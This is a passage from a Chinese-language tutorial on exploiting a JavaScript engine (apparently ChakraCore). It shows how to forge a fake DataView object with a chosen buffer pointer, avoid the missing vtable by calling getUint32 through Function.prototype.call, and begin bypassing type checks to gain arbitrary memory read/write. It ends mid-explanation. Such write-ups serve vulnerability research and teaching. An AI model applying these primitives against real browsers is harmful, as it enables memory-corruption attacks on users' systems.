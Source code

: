 第七项是byteoffset，这个值在利用中用不到同样填零。

```
fake_object[12]=0; fake_object[13]=0;
```

第八项是DataView操作的目的缓冲区地址，把这个值指向我们想要操作的地址就可以进行读写操作

```
fake_object[14]=base_low+0x58; fake_object[15]=base_high;
//000001801D70130E  mov         dword ptr [rcx+50h],r10d
//000001801D70131F  mov         dword ptr [rcx+54h],r9d
```



## 进行读写操作

在完成伪造DataView之后，我们需要做的是尝试使用这个DataView进行读写内存，因为之前DataView中的很多数据都填零。在函数使用这个DataView时可能发生各种问题，这里就需要通过调试一一bypass这些限制。

首先第一个问题是前面我们知道了DataView拥有getInt16、setInt16等方法可以用于访问数据，但是调用这些方法会需要访问伪造的DataView的虚表。

前面说过目前vtable地址无法获知，但是这些函数是必须使用的，因此需要一种不通过虚表的调用方法。下面给出了不访问对象虚表调用对象函数的方法。

```
fake_dataview.getInt32(0);
//使用call可以避免vtable crash
DataView.prototype.getInt32.call(fake_dataview,0);
```

也就是通过Function.prototype.call()方法，所有原型继承自Function的方法都可以使用call方法进行调用，第一个参数相当于c++中的this指针。

这里随意建立的一个DataView对象，目的是取他的**proto**.getUint32。<br>
arr[0]保存了伪造的DataView指针,把arr[0]传递过去尝试一下读写。

```
var tmp = new ArrayBuffer(16);
var obj = new DataView(tmp);

obj.getUint32.call(arr[0],0,true);
```

代码中没有再访问虚表，虚表的问题得以解决。



## 绕过代码的限制

虽然虚表的问题已经解决，但是此时的读写操作还是不能成功，程序会发生crash。<br>
因为虽然伪造的fake DataView中的一些域与控制读写无关，但是代码中可能存在访问这些域的地方。比如我们前面把一些指针域填零，当代码中存在对这些指针访问时就会发生Crash。

首先遇到的第一个问题是在取出DataView数据前会先判断对象的类型是否是DataView。

```
const TypeId typeId = recyclableObject-&gt;GetTypeId();

 inline TypeId RecyclableObject::GetTypeId() const
    `{`
        return this-&gt;GetType()-&gt;GetTypeId();
    `}`
```
